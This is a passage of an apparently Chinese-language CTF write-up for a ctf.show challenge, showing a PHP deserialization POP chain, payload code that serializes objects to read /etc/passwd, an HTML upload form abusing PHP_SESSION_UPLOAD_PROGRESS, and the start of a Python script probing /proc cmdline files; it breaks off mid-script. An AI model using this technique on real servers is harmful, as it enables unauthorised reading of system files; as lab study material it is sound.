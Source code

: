 



> 我这边利用的pop链是
>
>  `Happy:__destruct()=>_New_:__get()=>_New_:__toString()=>Year:__toString()=>Year:Show()` 
>
> payload:
>
> ```php
> <?php
>     class Happy {
>         public $happy;
>     }
> 
>     class _New_{
>         public $daniu;
>         public $robot;
>         public $notrobot;
> 
>  }
>     class Year{
>         public $zodiac;
> 
>     }
> 
> $a=new Happy();
> $a->happy=new _New_();
> $a->happy->daniu=new _New_();
> $a->happy->daniu->daniu=new Year();
> $a->happy->daniu->robot="zodiac";
> $a->happy->daniu->notrobot="/etc/passwd";
> var_dump(serialize($a));
> 
> ?>
> ```
>
> 得到序列化字符串后，可以将其双引号转义并在前方加一个 `|` ，然后通过构造提交用表单截包替换其中的filename，即可得到任意文件读取。
>
> 提交用表单：
>
> ```html
> <form action="http://7182a975-6fe3-4106-a942-5da035f2a132.challenge.ctf.show/" method="POST" enctype="multipart/form-data">
>         <input type="hidden" name='PHP_SESSION_UPLOAD_PROGRESS' value="123" />
>         <input type="file" name="file" />
>         <input type="submit" />
> </form>
> ```
>
> 获得了一个任意文件读取的漏洞，首先想到的是读配置文件和/proc目录，看看有没有别的什么可以利用的点。
>
> /proc/{pid}/cmdline 是所有用户均可读的，可以编写脚本爆一下进程id的cmdline
>
> ```python
> import requests
> import time
> 
> 
> def get_file(filename):
> 	data="""------WebKitFormBoundarytyYa582A3zCNLMeL
> Content-Disposition: form-data; name="PHP_SESSION_UPLOAD_PROGRESS"
> 
> 123